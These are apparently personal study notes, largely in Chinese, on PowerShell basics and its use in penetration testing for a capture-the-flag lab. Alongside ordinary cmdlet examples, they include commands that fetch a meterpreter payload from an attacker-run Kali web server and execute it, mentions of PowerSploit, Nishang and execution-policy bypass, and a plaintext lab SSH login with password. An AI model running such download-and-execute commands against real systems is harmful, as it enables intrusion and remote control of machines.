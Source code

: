 	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> Power Shell Scripting  : 
		--> format : 
			--> https://learnxinyminutes.com/docs/powershell/
			
		--> basic : 
			--> 註解 #
			--> $a (var) |  @() | @[] | @{}
			--> -eq (=) | -lt (<) | -le (<=) | -gt (>) | -ge (>=)
			--> Write-Output (print) 
			--> foreach ($a in (1,2,3))
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		--> Powershell ISE（Powershell 文字編輯器）
			--> .ps1 
				=> 查看本地連接埠是否正在偵聽 : waiting-ports.ps1
				=> 查看檔案包含密碼 : password.ps1
				=> 查看檔案包含 HTTPS連結 :htmls_link.ps1
				=> 查看開放連接埠:port_scan.ps1	
    	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	PowerShell for Pentesters : 
		--> PowerSploit 或 Nishang (防毒軟體 can check)
		--> ssh walter@10.10.210.144 | Kowacs123! => powershell
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> 操作文件 
		--> Start-Process : 可用於啟動進程
			=> Start-Process notepad.exe
	
		--> Get-Process :列出所有正在運行的進程
			=> Get-Process -Name notepad
				=> -name 過濾特定的進程名稱
			=> Get-Process | Export-Csv outputfile.csv
				=> Export-Csv 來建立一個 CSV 檔案
				
		--> Get-Content
			=> Get-Content .\outputfile.csv
			=> Get-Content -Name Out*
		--> Copy-Item 複製檔案 | Move-Item 移動檔案
			=> Copy-Item .\aaa.txt copy_aaa.txt

	
		--> Get-FileHash 
			=> Get-FileHash -Algorithm MD5 .\aaa.txt
			=> Get-FileHash -Algorithm SHA256 .\aaa.txt
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	-->下載文件
		--> kali : python3 -m http.server 8888
		--> PS :
			--> (New-Object System.Net.WebClient).Downloadfile('http://10.11.92.230:8888/2024_5_CTF/PowerShell/meterpeter.ps1', 'meterpreter.ps1')
			--> Invoke-WebRequest "http://10.11.92.230:8888/2024_5_CTF/PowerShell/meterpeter.ps1" -OutFile "meterpreter2.ps1"
			=> .\meterpreter.ps1
		
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~	
		--> Get-ExecutionPolicy -list (執行策略)
			=> AllSigned -- 要求所有腳本均由受信任的發布者簽署
			=> Bypass -- 不會顯示任何警告或提示
			=> Default
				--> “restricted” for Windows clients 
				--> “RemoteSigned” for Windows servers
			=> RemoteSigned -- 不需要對本機腳本進行數位簽章
			=> Restricted -- 允許運行單一命令，不允許運行腳本
			=> Undefined -- 強制執行Default執行策略
			=> Unrestricted -- 大多數腳本都會運行
			
